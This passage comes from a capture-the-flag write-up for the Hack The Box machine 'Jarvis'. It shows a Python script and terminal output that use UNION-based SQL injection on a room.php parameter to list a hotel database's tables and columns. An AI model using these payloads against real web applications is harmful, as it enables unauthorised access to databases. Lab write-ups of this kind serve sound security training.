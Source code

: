- Database names: `hotel`, `information_schema`, `mysql`, `performance_schema`

Except for database `hotel`, everything else is default.

**Enumerate table names in database `hotel`:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='hotel' LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:01:41(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='hotel' LIMIT 1 OFFSET 0-- -
[+] Payload result: room
[*] Payload: 7 UNION ALL SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='hotel' LIMIT 1 OFFSET 1-- -
[-] No result :(
[-] Exploit failed... Abort!!
```

- Database `hotel` table names: `room`

**Enumerate database `hotel` table `room`'s column names:**
```python
if __name__ == '__main__':
    url = 'http://jarvis.htb/room.php?cod='
    exploit = Exploit(url)

    for offsetPosition in range(100):
        payload = f"7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET {offsetPosition}-- -"
        isExploitSuccess, payloadResult = exploit.enumerateDatabase(payload)
        if not isExploitSuccess:
            print('[-] Exploit failed... Abort!!')
            break

        print(f'[+] Payload result: {payloadResult}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|20:02:49(HKT)]
└> python3 sql_injection_exploit.py
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 0-- -
[+] Payload result: cod
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 1-- -
[+] Payload result: name
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 2-- -
[+] Payload result: price
[*] Payload: 7 UNION ALL SELECT NULL,column_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='room' LIMIT 1 OFFSET 3-- -
[+] Payload result: descrip
```